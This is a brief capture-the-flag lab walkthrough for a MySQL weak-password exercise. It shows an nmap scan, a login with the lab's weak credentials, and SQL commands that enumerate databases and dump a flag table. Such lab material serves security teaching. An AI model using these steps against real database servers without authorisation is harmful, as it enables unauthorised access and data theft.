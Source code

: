 ## MySQL Weak Password Walkthrough

1.  **Enumeration:** A port scan (`nmap <TARGET_IP>`) reveals that port 3306 (MySQL) is open to the network.
2.  **Attack:** An attacker would typically attempt to brute-force common usernames and passwords. In this lab, we know the user is `student` and the password is weak. We can connect directly.
    ```bash
    # Note: The --skip-ssl flag may be needed depending on the client version
    mysql -h <TARGET_IP> -u student -p --skip-ssl
    ```
3.  **Authentication:** When prompted, enter the weak password: `password123`.
4.  **Looting:** Once connected to the database, enumerate its contents to find the flag.
    ```sql
    -- Show all available databases
    show databases;

    -- Switch to the interesting database
    use secrets;

    -- Show tables in the current database
    show tables;

    -- Dump the contents of the table to find the flag
    select * from flag_table;
    ```

***

